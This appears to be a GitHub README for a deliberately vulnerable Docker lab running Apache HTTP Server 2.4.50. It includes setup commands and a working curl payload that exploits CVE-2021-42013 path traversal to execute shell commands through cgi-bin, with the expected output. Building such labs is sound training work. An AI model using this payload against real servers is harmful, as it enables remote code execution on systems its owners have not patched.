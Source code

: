 # CVE-2021-42013

Vulnerable configuration Apache HTTP Server version 2.4.49/2.4.50

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/12345qwert123456](https://github.com/12345qwert123456) |
| Url      | [https://github.com/12345qwert123456/CVE-2021-42013](https://github.com/12345qwert123456/CVE-2021-42013)                                               |
| Stars    | 0                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* apache* cve* cve-2021-42013* docker* http-server* lfi* rce* vulnerability

</details>

## Readme

# CVE-2021-42013 Vulnerable service
 
## Installation

Several options:

### 1. Docker container
```bash
docker run -d -p 8080:80 12345qwert123456/apache_2_4_50_cve-2021-42013
```

### 2. Dockerfile
```bash
git clone https://github.com/12345qwert123456/CVE-2021-42013.git

cd CVE-2021-42013-Vulnerable-service/2.4.50

docker build -t apache_2_4_50_cve-2021-42013 .

docker run -d -p 8080:80 apache_2_4_50_cve-2021-42013
```

## Explotation
Command:
```bash
curl --path-as-is -d "echo Content-Type: text/plain; echo; id" "http://127.0.0.1:8080/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash"
```

Expected output:
```
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```



## Get the content

```
git clone https://github.com/12345qwert123456/CVE-2021-42013
cd CVE-2021-42013
```

{% embed url="https://github.com/12345qwert123456/CVE-2021-42013" %}

<figure><img src="https://avatars.githubusercontent.com/u/63474188?v=4" alt=""><figcaption><p>12345qwert123456</p></figcaption></figure>
